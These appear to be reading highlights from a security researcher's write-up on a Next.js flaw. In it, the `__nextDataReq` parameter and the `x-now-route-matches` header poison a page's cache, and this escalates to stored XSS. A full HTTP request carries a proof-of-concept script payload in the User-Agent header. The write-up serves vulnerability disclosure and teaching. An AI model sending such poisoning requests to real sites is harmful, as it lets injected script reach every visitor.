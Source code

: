 By combining in the request:
 1. The internal URL parameter `__nextDataReq` to make it a **data request**
 2. The header `x-now-route-matches` to make it pass for an `SSG` thereby changing the `Cache-Control`

It is possible to cache the JSON object `pageProps` on the target endpoint **altering the content of any page**. [](https://read.readwise.io/read/01jnk1p7g4263td1ev5kzqypts)

Normal request to the `/poc` endpoint: ![](https://zhero-web-sec.github.io/images/p7.png) [](https://read.readwise.io/read/01jnk1q25ybbewewtw4sc1awyq)

Request to the `/poc` endpoint by adding the `__nextDataReq` parameter and the `x-now-route-matches` header: ![](https://zhero-web-sec.github.io/images/p9.png) [](https://read.readwise.io/read/01jnk1qbnnf2f8825ptd7ha3hh)

Poisoned page:
![](https://zhero-web-sec.github.io/images/p10.png)

### Exploitation - Stored XSS via Cache Poisoning

Since we’re now accessing the “normal” page without artificially modifying it, what about the `content-type`? It should no longer be a `application/json` response.. 

Looking at the poisoned response (`/poc`) in my proxy, when we directly access the poisoned endpoint (*without* `__nextDataReq`) the `content-type` is `text/html`! [](https://read.readwise.io/read/01jnk1s4e3zjab8wer1vzm8t0s)

Any value of the request (*initially sent by the attacker*) being reflected in the response is a vector for a [Stored Cross-Site Scripting (XSS)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md) [](https://read.readwise.io/read/01jnk1swe8anthnhcbpkhzy4f1). For an SXSS to be possible, **it only takes one element to be reflected**. [](https://read.readwise.io/read/01jnk1tna1qxr7x89tgf3y5djm)

```http
GET /poc?__nextDataReq=1 HTTP/1.1
Host: localhost:3000
User-Agent: CP TO SXSS ON NEXT.JS : <img src=x onerror=alert('Palestine')>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
x-now-route-matches: 1
```
[](https://read.readwise.io/read/01jnk1v4f09wcw4zpqbkwasnfj)

![](https://zhero-web-sec.github.io/images/p11.png) *Stored XSS on Next.js* [](https://read.readwise.io/read/01jnk1vd3rymp1e701pe9z2rrk)

>[!note]
>As explained earlier, when `getServerSideProps` is used, **it’s very likely** that an element from the request is reflected in the response, the main reason for this function being to transmit data only available at the time of the request. [](https://read.readwise.io/read/01jnk1w807s5j5dy05v11spw98)
